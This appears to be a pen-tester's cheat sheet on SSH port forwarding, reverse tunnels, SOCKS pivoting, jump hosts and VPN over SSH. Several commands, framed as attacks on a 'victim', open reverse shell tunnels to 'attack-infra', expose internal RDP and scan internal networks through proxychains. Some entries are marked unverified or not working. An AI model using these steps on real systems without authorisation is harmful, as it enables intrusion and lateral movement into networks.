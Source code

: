 
### local port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
    (exposes remote service <remote host>:<remote port> to local port via ssh tunnel)
    (connections made to <local port to listen> will be forwarded to <remote host>:<remote port>)

    # use case #1: prepare tunnel for attacking your victim
    pen-tester$ ssh user@attack-infra -L 1234:victim:80
    pen-tester$ curl http://127.0.0.1:1234

    # use case #2: attack victim's 445 port when access to it's sshd has been obtained
    attack-infra$ ssh user@victim -L 1234:127.0.0.1:445
    pen-tester$ nbtscan attack-infra:1234

### remote port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -R <remote port to bind>:<local host>:<local port>
    (exposes local serivce <local host>:<local port> on the remote host via ssh tunnel)
    (connections made to <remote port to bind> on remote host will be forwared to <local host>:<local port>)

    # use case #1: expose internal RDP service to outside of the intranet
    victim$ ssh user@attack-infra -p53 -R 1234:127.0.0.1:3389
    pen-tester$ rdesktop attack-infra:1234 

    # use case #2 (special case of #1): reverse SSH tunnel (from victim to attack-infra)
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts yes' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R 2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

    # use case #3 (the same as #2 but with additional IP access control) - didn't work for me
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts clientspecified' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R <pen-tester-ip>:2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

### dynamic port forwarding

Requires: `AllowTcpForwarding yes` on SSHD (default setting)

    ssh -D <local proxy host:port> -p <remote port> <target>

    # use case #1: create local socks4 proxy which will tunnel incoming traffic to victimDMZ
    ssh -D1234 -p22 user@victim

    # use case #2: reverse ssh from victim allows to scan whole internal network
    victim$ ssh -f -N -R 2222:127.0.0.1:22 root@attack-infra
    pen-tester$ ssh -f -N -D 127.0.0.1:8082 -p 2222 root@attack-infra
    pen-tester$ (add 'socks4 127.0.0.1 8082' to /etc/proxychains.conf)
    pen-tester$ proxychains nmap --top-ports=20 -sT -Pn <target> 

Wrapper to provide `ssh -D` functionality in cases when forwarding is disabled (`AllowTcpForwarding No`):

	https://github.com/TarlogicSecurity/SaSSHimi

### reverse SOCKS proxy

On Linux box (SSH’d to localhost with the -D option to get the SOCKS server running, then make a second connection to the Internet to port-forward access to the SOCKS service):

```
# (not verified solution yet):
ssh -D4321 user@127.0.0.1
ssh -N -P443 -i key.pem -R 1234:127.0.0.1:4321 user@external_attack_machine

# on 'external_attack_machine' use proxchains with following configuration:
socks5 127.0.0.1 1234
```

From Windows box (3rd party software needed to run SOCKS server):

    https://labs.portcullis.co.uk/blog/reverse-port-forwarding-socks-proxy-via-http-proxy-part-1/

Possible alternative (no SSH used) solutions:

    https://github.com/klsecservices/rpivot
    https://github.com/sensepost/reGeorg

### SSH over SSL

    http://blog.chmd.fr/ssh-over-ssl-episode-2-replacing-proxytunnel-with-socat.html

### ssh over socks proxy

    $ ssh -i key.pem -o 'ProxyCommand=nc -X 5 -x proxy:1080 %h %p' user@host

### connect to host via other SSH jump box

Basic scenario:

    ssh -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host
    scp -r -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host:dir ./

Multiple SSH hops:

    ssh -i host-key.pem -J user1@hop1,user2@hop2 user@host
	scp -i host-key.pem -r -o 'ProxyJump user1@hop1,user2@hop2' user@host:dir ./

Multiple SSH hops each requiring different identity key:

```
eval `ssh-agent -s`
ssh-add -D
ssh-add key1.pem 
ssh-add key2.pem
ssh -i host-key.pem -Juser1@hop1,user2@hop2 user@host
```

### VPN over SSH

Requires modifications of sshd configuration, specifically:

```
PermitRootLogin yes
PermitTunnel yes # non-default setting
```

Run:

```
ssh username@server -w any:any
```

For detailed setup see: `https://artkond.com/2017/03/23/pivoting-guide/#vpn-over-ssh`.

### custom VPN solution over SSH

Poor's man VPN solution over SSH tunnel (no server-side modifications are needed):

    https://github.com/sshuttle/sshuttle

### mounting directories over SSH

    https://github.com/libfuse/sshfs
    # reverse sshfs solution:
    https://superuser.com/questions/616182/how-to-mount-local-directory-to-remote-like-sshfs/918708#918708

   

